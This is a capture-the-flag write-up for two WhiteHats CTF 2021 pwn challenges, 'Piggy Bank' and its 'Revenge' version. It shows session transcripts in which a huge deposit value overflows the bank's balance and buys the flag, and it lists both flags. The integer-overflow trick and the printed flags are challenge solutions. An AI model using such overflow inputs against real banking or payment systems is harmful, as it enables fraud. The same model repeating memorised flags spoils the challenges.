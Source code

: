 ```yaml
---
layout: writeup
ctf: WhiteHats CTF 2021
chal: Piggy_Bank / Piggy_Bank_Revenge
flag: WH2021{N0w_the_p1ggy_is_wORS3_than_empty_:'(} / WH2021{(Don't)Try_th1s_0n_youR_B4nk!}
points: 287 / 539
solves: 64 / 51
category: pwn
---
```


Piggy bank

> Time to save your angbao money! $\_$

Piggy bank revenge:

> Seems there was an issue with the previous implementation. I've introduced a HOTFIX that should prevent any further vulnerabilities. I've achieved an unhackable piggy bank now for sure.

My solution for both was purely by fuzzing, when connecting to the netcat server provided, we see a simple bank menu:

```
Piggy Bank value: $1337.00
Wallet value:     $100.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice:
```

Immediately one thinks 'how can someone implementing this mess up'. The easiest way is to allow depositing negative amounts of money, and in C negative values are stored as 'a very big integer', so let's try to input big integers. This immediately allows us to buy the flag in both challenges.

Piggy bank:

```
Piggy Bank value: $1337.00
Wallet value:     $100.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 1

How much would you like to DEPOSIT?
> $200000000

Piggy Bank value: $-14747027.-80
Wallet value:     $14748464.80

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 3

WH2021{N0w_the_p1ggy_is_wORS3_than_empty_:'(}
```

Piggy bank revenge:

```
Piggy Bank value: $1337.00
Wallet value:     $100.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 1

How much would you like to DEPOSIT?
> $200000000

Piggy Bank value: $-14747027.-80
Wallet value:     $14748464.80

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 3

WH2021{(Don't)Try_th1s_0n_youR_B4nk!}
```
